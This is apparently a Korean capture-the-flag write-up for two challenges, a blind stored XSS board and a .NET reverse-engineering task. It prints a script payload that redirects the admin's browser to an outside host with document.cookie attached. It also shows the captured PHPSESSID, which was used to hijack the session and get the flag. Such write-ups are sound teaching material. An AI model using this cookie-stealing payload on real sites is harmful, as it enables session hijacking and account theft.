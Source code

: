 ### DIMI SIMPLE BOARD 2  ( 920p )

```
관리자는 여러분들의 의견을 잘 듣습니다.
BLIND STORED XSS
http://121.170.91.15/jtjjtjjtjjtjjtjj/
```



```javascript
<script>location="http://youngjoo.nefus.kr/web/?g="+document.cookie</script>
```

- payload

```
PHPSESSID=6c0tpicbdlg2qf93fvivm5mbd7
```

- 얻은 값

blind store xss가 뭔지는 모르겠지만 test xss코드를 써놓고 다른문제 풀다가 파일 보니까 PHPSESSID값이 전송되어 있었다. 그래서 쿠키를 설정했더니 풀렸다.

flag : dimi{this_is_blind_store_xss} 



## Rev

### EZPZ  ( 500p )
![ex_screenshot](./jpg/rev1.png)
dotnet을 디컴파일 해보면 flag가 나온다.
